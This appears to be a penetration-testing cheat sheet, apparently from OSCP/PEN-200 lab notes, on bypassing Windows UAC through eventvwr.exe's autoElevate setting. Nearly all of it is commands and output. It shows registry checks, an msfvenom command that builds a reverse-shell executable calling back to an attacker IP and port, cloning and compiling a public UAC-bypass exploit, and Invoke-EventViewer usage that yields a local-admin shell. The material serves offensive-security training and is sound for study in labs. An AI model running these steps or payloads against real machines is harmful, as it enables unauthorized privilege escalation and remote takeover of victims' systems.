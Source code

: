 # UAC Bypass

# How to know if to bypass

If you run `Invoke-AllChecks` from `PowerView.ps1`, you can see the low hanging fruits. You might see output that suggests running a BypassUAC Attack like in the screenshot shown below from [this video](https://youtu.be/2NLi4wzAvTw?t=3456).

![Untitled](UAC%20Bypass%20eb0ad323265b40e3b76a92b77bd308cd/Untitled.png)

# Eventvwr.exe

This is a way to manually bypass UAC that I found from [here](https://github.com/h4cKeung/PEN200-Lab/blob/main/10.11.1.20-10.11.1.24-svcorp.com/proof.txt) 

```bash
# PE Ref: https://ivanitlearning.wordpress.com/2019/07/07/bypassing-default-uac-settings-manually/
# comfirm UAC of the system is currently on 
reg query HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System                                                                      
                                                                                                                                              
	HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System                                                                  
	    ConsentPromptBehaviorAdmin	REG_DWORD    0x5  
	    ...    

	    EnableLUA					REG_DWORD    0x1
	    ...

	    PromptOnSecureDesktop		REG_DWORD    0x1  
	    ...                                                                                                                                                                                                
	                                                                                                                                              
	HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\Audit                                                            
	HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\UIPI

where /r C:\windows eventvwr.exe
	C:\Windows\System32\eventvwr.exe
	C:\Windows\SysWOW64\eventvwr.exe
	C:\Windows\WinSxS\amd64_eventviewersettings_31bf3856ad364e35_10.0.14393.0_none_226c43821a65c869\eventvwr.exe
	C:\Windows\WinSxS\wow64_eventviewersettings_31bf3856ad364e35_10.0.14393.0_none_2cc0edd44ec68a64\eventvwr.exe

# comfirm eventvwr.exe is set to autoElevate
strings64.exe -accepteula C:\Windows\System32\eventvwr.exe | findstr /i autoelevate
    <autoElevate>true</autoElevate>

# creat payload for getting system shell
msfvenom -a x64 --platform Windows -p windows/x64/shell_reverse_tcp LHOST=192.168.119.124 LPORT=12345 -f exe -o shell.exe

# download payplad, modify and compile
git clone https://github.com/turbo/zero2hero.git
nano UAC_bypass.c
	# uncomment and update shell name
	GetCurrentDirectory(MAX_PATH, curPath);
	strcat(curPath, "\\shell.exe");
x86_64-w64-mingw32-gcc UAC_bypass.c -o UAC_bypass

# get system shell by running UAT_bypass.exe
```

# Invoke-EventViewer.ps1

You can see a tutorial from Offsec Live on how to do this here: [https://youtu.be/2NLi4wzAvTw?t=3610](https://youtu.be/2NLi4wzAvTw?t=3610)

[https://github.com/CsEnox/EventViewer-UACBypass](https://github.com/CsEnox/EventViewer-UACBypass)

```nasm
PS C:\Windows\Tasks> Import-Module .\Invoke-EventViewer.ps1

PS C:\Windows\Tasks> Invoke-EventViewer 
[-] Usage: Invoke-EventViewer commandhere
Example: Invoke-EventViewer cmd.exe

PS C:\Windows\Tasks> Invoke-EventViewer C:\temp\your-shell.exe
[+] Running
[1] Crafting Payload
[2] Writing Payload
[+] EventViewer Folder exists
[3] Finally, invoking eventvwr
```

This will get you a shell back with privileges as local admin